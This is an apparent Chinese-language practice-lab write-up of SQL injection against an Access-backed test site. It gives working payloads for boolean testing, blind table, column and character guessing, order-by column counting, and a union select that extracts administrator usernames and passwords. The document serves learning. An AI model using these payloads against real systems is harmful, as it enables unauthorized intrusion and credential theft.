# 凡诺靶场实验（Access数据库）

## 测试SQL注入点

### **注入payload**

```shell
id=4 and 1=1
```




```shell
id=4 and 1=2
```




响应页面不一致，报错，说明存在SQL注入点


## 猜解表名

### 注入payload

```shell
id=4 and exists(select * from administrator)
id=4 and exists(select * from 猜测表名)
```

### 猜测表名user



### 猜测表名administrator



未报错，说明该表存在


## 猜解字段名

### 注入payload

```shell
id=4 and exists(select user_name from administrator)
id=4 and exists(select 猜表名 from administrator)
```

### 猜测字段名username



### 猜测字段名user_name


未报错，说明该字段存在


## 猜解数据

### 猜解数据长度

```shell
id=4 and (select top 1 len(user_name) from administrator)=5
id=4 and (select top 1 len(user_name) from administrator)=猜测数据长度
```

#### 猜测数据长度为4


#### 猜测数据长度为5



未报错，说明数据长度为5


### 猜解数据内容

```shell
id=4 and (select top 1 asc(mid(user_name,1,1)) from administrator)=97
id=4 and (select top 1 asc(mid(user_name,1,1)) from administrator)=猜第一条数据第一个字母的ascii码值
```

#### 猜测ascii码值为96



#### 猜测ascii码值为97



未报错，说明第一条数据第一个字母的ascii码值为97


## union联合查询数据

### 猜测服务端默认查询字段数

需要知道服务端默认查询字段数，union查询出的数据才能跟前面对应上

```shell
id=4 order by 1,2,3,4,5
id=4 order by 猜测查询数量
```

#### 猜测默认查询字段数为5



#### 猜测默认查询字段数为4



为报错，说明服务端默认查询4个字段


### 页面展示哪个字段

```shell
id=4 union select 1,2,3,4 from administrator
```



页面展示2和3，说明页面展示的是第二列和第三列。那么只需要把想获取的字段替换掉2和3


### union联合查询

```shell
id=4 union select top 1 1,user_name,password,4 from administrator  #展示查到的第一行数据
```

### 成功获取到用户名和密码



成功获取到用户名和密码


【持续学习中···】